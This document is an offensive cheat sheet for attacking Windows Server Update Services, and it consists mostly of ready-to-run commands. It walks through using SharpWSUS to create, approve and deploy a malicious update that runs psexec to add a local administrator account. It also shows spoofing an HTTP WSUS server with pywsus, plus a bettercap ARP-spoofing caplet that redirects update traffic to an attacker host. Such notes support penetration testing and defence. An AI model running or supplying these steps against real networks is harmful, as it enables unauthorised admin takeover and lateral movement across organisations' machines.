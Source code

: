 # Windows Server Update Services (WSUS)

Push an evil update on the computers

### 1) Locate the WSUS server

    ./SharpWSUS locate

### 2) Find a way to compromise it

### 3) Enumerate the contents of the WSUS server to determine which machines to target

    ./SharpWSUS.exe inspect

### 4) Create a malicious patch with a Microsoft signed binary (mandatory)

    ./SharpWSUS.exe create /payload:"C:\tmp\psexec.exe" /args:"-accepteula -s -d cmd.exe /c \"net user user1 Password123! /add && net localgroup administrators user1 /add\"" /title:"EvilWSUS"

### 5) Create a WSUS group, add the target machine to the WSUS group and approve the malicious patch for deployment

    ./SharpWSUS.exe approve /updateid:<GUID_from_create> /computername:<target> /groupname:"Evil Group"

### 6) Wait for the client to download the patch, not possible to control

    ./SharpWSUS.exe check /updateid:<GUID_from_create> /computername:<target>

### 7) Clean up after the patch is downloaded.

    ./SharpWSUS.exe delete /updateid:<GUID_from_create> /computername:<target> /groupname:"Evil Group"

Spoof the WSUS server and hijack the update if the updates are pushed through HTTP and not HTTPS

### 1) Find the WSUS server with the REG key

    reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v wuserver

### 2) Setup the fake WSUS server

    python3.exe pywsus.py --host <network_interface> --port 8530 --executable ./PsExec64.exe --command '/accepteula /s cmd.exe /c "net user usser1 Password123! /add && net localgroup Administrators user1 /add"'

### 3) And ARP spoofing with bettercap and a wsus_spoofing.cap like this:

##### quick recon of the network
    net.probe on

##### set the ARP spoofing
    set arp.spoof.targets $client_ip
    set arp.spoof.internal false
    set arp.spoof.fullduplex false

##### reroute traffic aimed at the WSUS server
    set any.proxy.iface $interface
    set any.proxy.protocol TCP
    set any.proxy.src_address $WSUS_server_ip
    set any.proxy.src_port 8530
    set any.proxy.dst_address $attacker_ip
    set any.proxy.dst_port 8530

##### control logging and verbosity
    events.ignore endpoint
    events.ignore net.sniff

##### start the modules
    any.proxy on
    arp.spoof on
    net.sniff on

THEN

    bettercap --iface <network_interface> --caplet wsus_spoofing.cap

Now wait for update verification or manually trigger with a GUI access on the machine.

